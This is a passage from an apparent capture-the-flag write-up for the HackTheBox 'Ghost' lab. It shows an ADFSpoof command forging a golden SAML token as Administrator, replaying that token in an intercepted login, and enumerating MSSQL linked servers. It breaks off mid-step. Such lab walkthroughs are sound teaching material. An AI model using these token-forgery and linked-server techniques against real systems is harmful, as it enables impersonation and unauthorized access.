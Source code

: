     Based on both of these articles [generate-a-saml-20-token-for-some-app](https://github.com/mandiant/ADFSpoof?tab=readme-ov-file#generate-a-saml-20-token-for-some-app) and [adfs-golden-saml](https://swisskyrepo.github.io/InternalAllTheThings/active-directory/ad-adfs-federation-services/#adfs-golden-saml) we would craft our payload as following

    ```
    bin/python3 ADFSpoof.py -b token.bin key.bin -s 'core.ghost.htb' saml2 \
    --endpoint 'https://core.ghost.htb:8443/adfs/saml/postResponse' \
    --nameidformat 'urn:oasis:names:tc:SAML:1.1:nameid-format:emailAddress' \
    --nameid 'Administrator@ghost.htb' \
    --rpidentifier 'https://core.ghost.htb:8443' \
    --assertions '<Attribute Name="http://schemas.xmlsoap.org/ws/2005/05/identity/claims/upn"><AttributeValue>Administrator@ghost.htb</AttributeValue></Attribute><Attribute Name="http://schemas.xmlsoap.org/claims/CommonName"><AttributeValue>Administrator</AttributeValue></Attribute>'
    ```
    ![](https://miro.medium.com/v2/resize:fit:828/format:webp/1*ZNqmbY0P1V3H_2xxIVa6pg.png)

4. Go Back to the core page and login using AD Federation


![](https://miro.medium.com/v2/resize:fit:828/format:webp/1*mxVjPR_lzVuS3AT2e2YDCg.png)
_https://ghost.htb:8443/login_
Then intercept request, until the final one with `SAMLResponse=`, replace the body with our forged token from the `ADFSpoof`

![](https://miro.medium.com/v2/resize:fit:828/format:webp/1*voWQHhm1ScjpN64rFgWTnA.png)

### MSSQL pannel 

Finally we have access to Ghost Config Panel, An MSSQL database query Debugger.

![](https://miro.medium.com/v2/resize:fit:828/format:webp/1*R8RHmN73TOucJqc_EPkZkQ.png)

#### Enumeration
Run a quick enumeration to check the SQL Server instance and linked servers: 

+ Enumerate DB server version `SELECT @@version`

    ![](https://miro.medium.com/v2/resize:fit:828/format:webp/1*z1AmoEuwCApYMraNVaVcfw.png)

+ Enumerate Serever name `SELECT @@SERVERNAME`

    ![](https://miro.medium.com/v2/resize:fit:828/format:webp/1*pf0wOtSDe15WjprS5qizhQ.png)


+ Check the linked servers `EXEC sp_linkedservers;`

    ![](https://miro.medium.com/v2/resize:fit:828/format:webp/1*8LqEF2m9xlJQmz_WmTOv0Q.png)


    In this case, `DC01` is the current SQL Server instance, and the linked server is labeled `PRIMARY`. We can execute queries on the linked server as follows:

    ```sql
    EXECUTE ('query') AT [PRIMARY];
    ```
+ To check the permissions granted to the current user on the linked server:
